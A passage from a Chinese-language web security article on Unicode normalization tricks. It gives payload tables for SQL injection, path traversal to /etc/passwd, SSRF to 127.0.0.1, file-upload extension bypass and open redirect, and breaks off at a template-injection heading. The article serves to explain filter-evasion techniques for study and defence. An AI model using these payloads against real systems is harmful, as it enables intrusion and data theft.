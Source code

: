 或者，你可以到这个表里去找：[https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)

[![](https://p3.ssl.qhimg.com/t011ccd962bff9e592e.png)](https://p3.ssl.qhimg.com/t011ccd962bff9e592e.png)



## 利用场景

除了上面提到的xss,Unicode还可以用在什么场景上？那可就老多了！

Sql注入

<th style="text-align: center;">字符</th><th style="text-align: center;">payload</th><th style="text-align: center;">规范化后</th>
|------
<td style="text-align: center;">＇(U+FF07)</td><td style="text-align: center;">＇ or ＇1＇=＇1</td><td style="text-align: center;">’ or ‘1’=’1</td>
<td style="text-align: center;">＂(U+FF02)</td><td style="text-align: center;">＂ or ＂1＂=＂1</td><td style="text-align: center;">” or “1”=”1</td>
<td style="text-align: center;">﹣ (U+FE63)</td><td style="text-align: center;">admin＇﹣﹣</td><td style="text-align: center;">admin’–</td>

路径穿越

<th style="text-align: center;">字符</th><th style="text-align: center;">payload</th><th style="text-align: center;">规范化后</th>
|------
<td style="text-align: center;">‥ (U+2025)</td><td style="text-align: center;">‥/‥/‥/etc/passwd</td><td style="text-align: center;">../../../etc/passwd</td>
<td style="text-align: center;">︰(U+FE30)</td><td style="text-align: center;">︰/︰/︰/etc/passwd</td><td style="text-align: center;">../../../etc/passwd</td>

ssrf

<th style="text-align: center;">字符</th><th style="text-align: center;">payload</th><th style="text-align: center;">规范化后</th>
|------
<td style="text-align: center;">⓪ (U+24EA)</td><td style="text-align: center;">①②⑦.⓪.⓪.①</td><td style="text-align: center;">127.0.0.1</td>

文件上传

<th style="text-align: center;">字符</th><th style="text-align: center;">payload</th><th style="text-align: center;">规范化后</th>
|------
<td style="text-align: center;">ｐ (U+FF50)ʰ (U+02B0)</td><td style="text-align: center;">test.ｐʰｐ</td><td style="text-align: center;">test.php</td>

开放式跳转

<th style="text-align: center;">字符</th><th style="text-align: center;">payload</th><th style="text-align: center;">规范化后</th>
|------
<td style="text-align: center;">。(U+3002)</td><td style="text-align: center;">jlajara。gitlab。io</td><td style="text-align: center;">jlajara.gitlab.io</td>
<td style="text-align: center;">／(U+FF0F)</td><td style="text-align: center;">／／jlajara.gitlab.io</td><td style="text-align: center;">//jlajara.gitlab.io</td>

模板注入
